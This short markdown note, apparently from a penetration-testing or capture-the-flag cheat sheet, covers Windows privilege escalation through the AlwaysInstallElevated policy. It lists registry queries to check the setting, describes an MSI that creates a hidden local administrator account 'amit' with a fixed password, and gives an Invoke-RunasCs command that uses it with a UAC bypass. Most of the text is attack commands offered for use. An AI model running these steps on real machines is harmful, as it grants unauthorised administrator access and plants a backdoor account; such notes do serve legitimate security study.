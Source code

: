 ### Leveraging AlwaysInstallElevated
Check if enabled:
- `reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated` 
- `reg query HKLM\software\policies\microsoft\windows\installer /v alwaysinstallelevated` 

### MSI File Purpose

1. Creating the user `amit` with the password `Password123!` 
2. Adding the user to the local administrators group. 

Then we can use [Invoke-RunasCs.ps1](https://github.com/antonioCoco/RunasCs/blob/master/Invoke-RunasCs.ps1) to get code execution as the newly created administrator user:
- `Invoke-RunasCs amit 'Password123!' 'whoami /priv' -ForceProfile -CreateProcessFunction 2 -BypassUac`
